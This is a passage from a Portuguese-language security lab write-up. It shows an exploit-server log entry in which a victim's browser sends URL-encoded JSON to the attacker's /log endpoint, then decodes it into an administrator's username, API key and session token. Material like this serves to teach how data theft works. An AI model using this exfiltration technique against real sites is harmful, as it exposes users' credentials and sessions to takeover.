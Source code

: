 Ao acessar os logs do servidor, podemos ver que o resultado da requisição foi enviado com sucesso.

> `/log?key=%7B%0A%20%20%22username%22%3A%20%22administrator%22%2C%0A%20%20%22email%22%3A%20%22%22%2C%0A%20%20%22apikey%22%3A%20%223YmaSPmQbpXBtpPol6D8Pus2vVG5djgt%22%2C%0A%20%20%22sessions%22%3A%20%5B%0A%20%20%20%20%22wAOfVTqAhDAb8e8JrVqEwHFuASoe4QmY%22%0A%20%20%5D%0A%7D HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"`

Porém, o resultado da requisição está codificado para ser usado em **URL's**, para decodificar, iremos utilizar o site [URL Decoder](https://www.urldecoder.org/).

![urldecode](null_decode.png)

E como podemos ver, o resultado da requisição é o seguinte:

``` json

{
  "username": "administrator",
  "email": "",
  "apikey": "3YmaSPmQbpXBtpPol6D8Pus2vVG5djgt",
  "sessions": [
    "wAOfVTqAhDAb8e8JrVqEwHFuASoe4QmY"
  ]
}

```
